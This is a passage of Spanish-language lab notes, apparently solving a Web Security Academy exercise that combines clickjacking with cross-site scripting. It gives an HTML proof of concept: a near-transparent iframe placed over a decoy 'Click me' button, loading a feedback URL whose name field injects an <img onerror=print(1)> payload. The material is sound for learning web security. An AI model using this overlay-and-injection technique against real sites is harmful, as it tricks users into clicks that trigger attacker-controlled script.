 Comprobamos que funciona usándolo yo

![](assets/2022-07-28-19-59-22.png)

Ahora montamos el iframe como siempre añadiendo esta url

```html
<style>
    iframe{
position:absolute;
opacity: 0.1;
z-index:2;
}
.button2 {
      position: relative;
    top: 483px;
    left: 28px;
    width: 127px;
    -webkit-border-radius: 25px;
    -moz-border-radius: 25px;
    border-radius: 25px;
    -ms-touch-action: manipulation;
    touch-action: manipulation;
    -webkit-user-select: none;
    -moz-user-select: none;
    -ms-user-select: none;
    user-select: none;
    background-color: #159c80;
    color: #fff;
    font-size: 16px;
    font-weight: bold;
    padding: 7px 1em;
    text-align: center;
    text-decoration: none !important;
    white-space: nowrap;
}
</style>
<div class="button2">Click me</div>
<iframe src="https://0af400c30372da68c02857780061001b.web-security-academy.net/feedback/?name=%3Cimg%20src=1%20onerror=print(1)%3E&email=adfa%40gmail.com&subject=adf&message=adf" width="1000px" height="700px"/>
```
